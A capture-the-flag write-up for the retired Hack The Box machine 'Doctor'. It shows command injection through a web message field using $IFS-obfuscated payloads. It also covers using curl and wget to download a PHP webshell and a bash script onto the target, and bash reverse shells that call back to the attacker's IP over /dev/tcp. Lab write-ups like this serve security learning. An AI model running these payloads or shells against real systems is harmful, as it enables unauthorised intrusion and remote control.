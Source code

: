 # Alternate way via shell command injection

I learned this from writeups after the box was retired. Injecting your IP as http://10.10.14.78/test into the Title and Content of the message box would elicit this response on a HTTP listener

```text
root@kali:~/CTF/HTB/Doctor# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [13/Feb/2021 12:45:01] code 404, message File not found
10.10.10.209 - - [13/Feb/2021 12:45:01] "GET /test HTTP/1.1" 404 -

root@kali:~/CTF/HTB/Doctor# nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.14.78] from (UNKNOWN) [10.10.10.209] 37042
GET /test HTTP/1.1
Host: 10.10.14.78
User-Agent: curl/7.68.0
Accept: */*
```

If we injected `http://10.10.14.78/$(id)` instead , we can see that the shell command in between brackets gets evaluated.

```text
10.10.10.209 - - [13/Feb/2021 12:45:45] code 404, message File not found
10.10.10.209 - - [13/Feb/2021 12:45:45] "GET /uid=1001(web) HTTP/1.1" 404 -
```

Now space as a character here won't work. Instead we have to use $IFS which is a typical substitution for space and single quotes for arguments. With this we can ping ourselves with this payload

```text
http://10.10.14.78/$(ping$IFS-c$IFS'2'$IFS'10.10.14.78')
```

and we see this with `tcpdump`

```text
root@kali:~/CTF/HTB/Doctor# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
13:06:13.865334 IP doctors.htb > 10.10.14.78: ICMP echo request, id 1, seq 1, length 64
13:06:13.865355 IP 10.10.14.78 > doctors.htb: ICMP echo reply, id 1, seq 1, length 64
13:06:14.867325 IP doctors.htb > 10.10.14.78: ICMP echo request, id 1, seq 2, length 64
13:06:14.867349 IP 10.10.14.78 > doctors.htb: ICMP echo reply, id 1, seq 2, length 64
```

We can try to upload a file to the default Linux webroot dir, /var/ww/html with

```text
http://10.10.14.78/$(curl$IFS'http://10.10.14.78/test'$IFS'-o'$IFS'/var/www/html/test')
```

Visiting http://10.10.10.209/test in the browser shows

> Testing

## Getting a shell

There are two ways to get a shell here, but only one way allows you to get root eventually. I'll cover the limited way first.

### Shell as www-data

 Since we can write to /var/www/html we can upload a PHP webshell. First to be cautious I uploaded phpinfo() to check whether `system()` was disabled

```text
http://10.10.14.78/$(curl$IFS'http://10.10.14.78/phpinfo.php'$IFS'-o'$IFS'/var/www/html/phpinfo.php')

root@kali:~/CTF/HTB/Doctor# cat phpinfo.php
<?php phpinfo(); ?>
root@kali:~/CTF/HTB/Doctor# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [13/Feb/2021 13:25:48] "GET /phpinfo.php HTTP/1.1" 200 -
10.10.10.209 - - [13/Feb/2021 13:25:48] "GET / HTTP/1.1" 200 -
```

Then visiting http://10.10.10.209/phpinfo.php we check disable_functions and see that system() is not included.

![959b5204574b4489b0239f7fab0f4d8c](Pics\959b5204574b4489b0239f7fab0f4d8c.png)

Then we can upload PHP webshell that uses system()

```text
http://10.10.14.78/$(curl$IFS'http://10.10.14.78/shell.php'$IFS'-o'$IFS'/var/www/html/shell.php')

root@kali:~/CTF/HTB/Doctor# cat shell.php
<?php echo Testing; system($_REQUEST ["cmd"]); ?>
root@kali:~/CTF/HTB/Doctor# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [13/Feb/2021 13:31:24] "GET /shell.php HTTP/1.1" 200 -
10.10.10.209 - - [13/Feb/2021 13:31:24] "GET / HTTP/1.1" 200 -
```

Then we can check http://10.10.10.209/shell.php gives **Testing**. And do a POST to get a reverse shell

```text
POST /shell.php HTTP/1.1
Host: 10.10.10.209
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.78/443 0>&1'
```

And we see

```text
root@kali:~/CTF/HTB/Doctor# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.78] from (UNKNOWN) [10.10.10.209] 35320
bash: cannot set terminal process group (1015): Inappropriate ioctl for device
bash: no job control in this shell
www-data@doctor:/var/www/html$
```

Unfortunately no way to escalate since www-data not in adm group and we can't read Web access logs to discover creds

```text
www-data@doctor /home/web $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nor can we plant a Webshell in the Webroot dir for user web to trigger it

```text
www-data@doctor /home/web/blog$ ls -lah
total 16K
drwxr-xr-x  3 web web 4,0K Sep 22 11:29 .
drwxr-xr-x  6 web web 4,0K Feb 13 06:19 ..
drwxr--r-- 10 web web 4,0K Feb 13 07:00 flaskblog
-rwxr--r--  1 web web  106 Aug 18 12:56 run.py
www-data@doctor /home/web/blog$ cd flaskblog/
bash: cd: flaskblog/: Permission denied
```

### Shell as Web

Alternately we can upload a Bash reverse shell script

```text
root@kali:~/CTF/HTB/Doctor# cat shell.sh
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.78/443 0>&1"
```

This can downloaded on the target to either

1. /dev/shm
2. /var/www/html
3. /var/tmp
4. /tmp

All should work but the first two are preferred because unlike the temp directories they're not partitioned by user.

Then we can trigger them with

```text
http://10.10.14.78/$(wget$IFS'http://10.10.14.78/shell.sh'$IFS'-O'$IFS'/dev/shm/shell.sh')
http://10.10.14.78/$(bash$IFS'/dev/shm/shell.sh')
```

To get a shell as web

```text
root@kali:~/CTF/HTB/Doctor# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.78] from (UNKNOWN) [10.10.10.209] 35614
bash: cannot set terminal process group (849): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$
```

